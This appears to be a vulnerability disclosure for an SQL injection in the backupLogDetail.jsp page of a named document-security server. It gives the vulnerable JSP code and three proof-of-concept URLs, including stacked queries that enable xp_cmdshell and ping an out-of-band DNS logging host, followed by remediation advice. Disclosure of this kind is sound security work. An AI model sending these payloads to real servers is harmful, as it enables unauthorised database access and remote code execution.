


# Vulnerability Report

## Title: SQL Injection Leading to Remote Code Execution (RCE)

### Summary:
A critical SQL injection vulnerability has been identified in the `backupLogDetail.jsp` page of the application. This vulnerability allows an attacker to execute arbitrary SQL commands, which can lead to remote code execution on the server.

### Affected Endpoint:
`backupLogDetail.jsp`

### Vulnerability Type:
RCE

### Vulnerable Code:
```java
<%@ page language="java" contentType="text/html;charset=UTF-8" %>
<%@page import="com.esafenet.beans.log.LogTaskInfo" %>
<%@include file="/languageApplicationResources.jsp" %>
<%@page import="com.esafenet.dao.log.LogTaskDao,com.esafenet.dao.log.LogTaskUtil,com.esafenet.model.system.MultiServerConfigModel,java.util.List" %>
<%@ page import="java.util.Map" %>
<jsp:useBean scope="session" class="com.org.acl.LoginMng" id="loginMng"/>
<%
    String flag = request.getParameter("flag");
    if (MultiServerConfigModel.isMainServer()
            && !MultiServerConfigModel.isLiked(flag)
            && MultiServerConfigModel.isAllowMultiServer()) {
        response.sendRedirect(request.getContextPath() + "/system/multiServersList.jsp?/logManagement/clientLog.jsp");
        return;
    }
    String logTaskId = request.getParameter("logTaskId");
    LogTaskDao logTaskDao = new LogTaskDao();
    LogTaskInfo logTaskInfo = logTaskDao.findLogTaskById(logTaskId);

%>

<html>
<head>
    <meta>
    <title></title>
    <link rel="stylesheet" href="../style/style2/style.css"
          type="text/css">
    <link rel="stylesheet" href="../css/cssTable.css" type="text/css">
    <link rel="stylesheet" type="text/css" href="../css/DataGrid.css">
    <script type="text/javascript" src="../js/verify.js"></script>
    <script type="text/javascript" src="js/PopupCalendar.js"></script>
    <script type="text/javascript" src="../js/commons.js"></script>
    <script type="text/javascript" src="../js/prototype-1.6.0.2.js"></script>
    <script type="text/javascript" src="../dojojs/dojo.js"></script>
    <script language="javascript">

    </script>
</head>
<body class="main">
<form method="post" action="backupLogManagement.jsp" name="myForm">
    <input type="hidden" name="command" value="downLoadLogFiles">
    <input type="hidden" name="fromurl" value="">
    <input type="hidden" name="logFileName" value="">
    <table align="center" class="DataGrid" border="0" cellpadding="1" cellspacing="1" width="95%">
        <%
            if (logTaskInfo != null) {
                Map<String, String> otheroptions = LogTaskUtil.getOtheroptions(logTaskInfo.getOtheroptions());
                List<String> operateActions = LogTaskUtil.getOperateActions(logTaskInfo.getOperateActions());
                if (otheroptions != null) {
                    for (Map.Entry<String, String> entry: otheroptions.entrySet()) {
        %>
        <tr class="DataGridRow">
            <td align="right"><%=rp.getString(entry.getKey()) %>：</td>
            <td><%=rp.getString(entry.getValue()) %>
            </td>
        </tr>
        <%
                }
            }
            if (operateActions != null) {
                int size = operateActions.size();
                for (int j = 0; j < size; j++) {
                    if (j == 0) {
        %>
        <tr class="DataGridRow">
            <td rowspan="<%=size %>" align="right">操作动作：</td>
            <td><%=rp.getString(operateActions.get(j)) %>
            </td>
        </tr>
        <%} else { %>
        <tr class="DataGridRow">
            <td><%=rp.getString(operateActions.get(j)) %>
            </td>
        </tr>
        <% }
        }
        }
        } else  %>

    </table>
</form>
</body>
</html>

```

### Proof of Concept (PoC):
The following URLs demonstrate the exploitation of the SQL injection vulnerability:

1. Delay the response by 10 seconds:
    ```
    https://uri/CDGServer3/logManagement/backupLogDetail.jsp?logTaskId=1';WAITFOR DELAY '0:0:10'--
    ```

2. Enable advanced options and `xp_cmdshell`:
    ```
    https://uri/CDGServer3/logManagement/backupLogDetail.jsp?logTaskId=1';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;--
    ```

3. Execute a command to ping an external server:
    ```
    https://uri/CDGServer3/logManagement/backupLogDetail.jsp?logTaskId=1';exec master..xp_cmdshell 'ping 3eea7de8.log.dnslog.myfw.us.'--
    ```



### Impact:

An attacker can exploit this vulnerability to execute arbitrary SQL commands on the database. This can lead to unauthorized access to sensitive data, database corruption, and remote code execution on the server. The latter can result in a complete compromise of the server, allowing the attacker to execute arbitrary commands, install malware, and pivot to other systems within the network.

### Recommendation:
1. **Input Validation**: Ensure that all user inputs are properly validated and sanitized. Use prepared statements or parameterized queries to prevent SQL injection.
2. **Least Privilege**: Run the database with the least privileges necessary to reduce the impact of a successful injection.
3. **Error Handling**: Implement proper error handling to prevent detailed error messages from being displayed to the user.
4. **Regular Audits**: Conduct regular security audits and code reviews to identify and address potential vulnerabilities.

### Conclusion:
The identified SQL injection vulnerability in the `backupLogDetail.jsp` page poses a significant security risk, potentially leading to remote code execution and complete server compromise. Immediate remediation is required to protect the integrity and security of the application and its data.

### References:
- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)